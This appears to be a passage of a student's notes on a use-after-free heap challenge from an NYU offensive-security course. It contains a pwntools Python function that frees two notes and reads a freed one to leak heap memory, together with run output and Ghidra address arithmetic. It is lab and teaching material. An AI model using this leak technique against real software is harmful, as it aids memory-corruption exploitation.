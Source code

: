 It feels like it should be harder than that...
## Getting 0's
###### Code:
```python
def leakHeap(p):
	p.recvuntil(">")
	p.clean(timeout=0.05)
	
	# First Allocation
	data = str("AAAA")
	addNote(p, 8)
	editNote(p, 0, data)
	p.recvuntil(">")
	p.clean(timeout=0.05)

	# Second Allocation
	data = str("BBBB")
	addNote(p, 8)
	editNote(p, 1, data)
	p.recvuntil(">")
	p.clean(timeout=0.05)

	# Now set them free
	deleteNote(p, 0)
	p.recvuntil(">")
	deleteNote(p, 1)
	p.recvuntil(">")
	p.clean(timeout=0.05)

	# Print note 0
	readNote(p, 0)

	l = p.recvline()
	#print(l)
	return cleanLine(l)
```
###### Results:
```
jnu@Offsec-Ubuntu-20:~/Desktop/7-Week/uaf$ python3 UAF_Pwn1.py 
[+] Starting local process '/home/jnu/Desktop/7-Week/uaf/challenge/chal': pid 82355
\x00\x00\x00\x00\x00\x00\x00\x00=========== NYU OFFSEC ============
```

That is what I saw in the heap last time too...

## Break in `show()`

Array can always be calculated
1st line of main - mainGhidra + arrayGhidra

56288EAA4000 + 00104060 = 56288E99FFA0
